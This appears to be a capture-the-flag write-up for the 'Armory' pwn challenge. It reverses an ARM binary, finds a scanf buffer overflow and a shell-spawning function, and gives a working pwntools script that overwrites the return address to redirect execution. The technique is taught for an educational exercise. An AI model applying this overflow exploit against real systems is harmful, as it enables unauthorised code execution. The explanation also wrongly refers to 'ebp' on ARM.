

**Armory Write-Up**

This is the second pwn challenge. We're given a binary file, let's reverse it. I use GHIDRA, and with the decompiler it was pretty easy:


Two things we can deduct here. As the program manipulates data using registers like *r0* and *r2*, this is an ARM program. Moreover, as you can see with the decompiler view, the program defines a char array of 64 bytes, asks to enter an input, and copies into a location with scanf. Hm, let's keep this in mind. Continuing going through functions, I found an evil function:



Oh, it just pops a shell. What a gift! To write the exploit, I used python with the lib pwntools, but before, I just took the address of the evil function using gdb:

```
storm at arch in ~/C/E/pwn
❯❯ gdb -q ./armory                                                                                                                                             [23:09:00]
Reading symbols from ./armory...(no debugging symbols found)...done.
gdb-peda$ p evil
$1 = {<text variable, no debug info>} 0x1052c <evil>
```

Here is my python script:
```
#!/usr/bin/python2.7
from pwn import *

r = remote('challenges.ecsc-teamfrance.fr', 4003) # creating the connection
r.recv() # receiving data
payload = 'A'*68 # overflow buffer + overwrite ebp
payload += str(p32(0x1052c)) # little endian addr of evil function
r.sendline(payload) # send the payload
r.interactive()
```

Why overflow the buffer + 4 bytes ? This is simply to overwrite the saved of ebp. Execute the program, and get the flag:

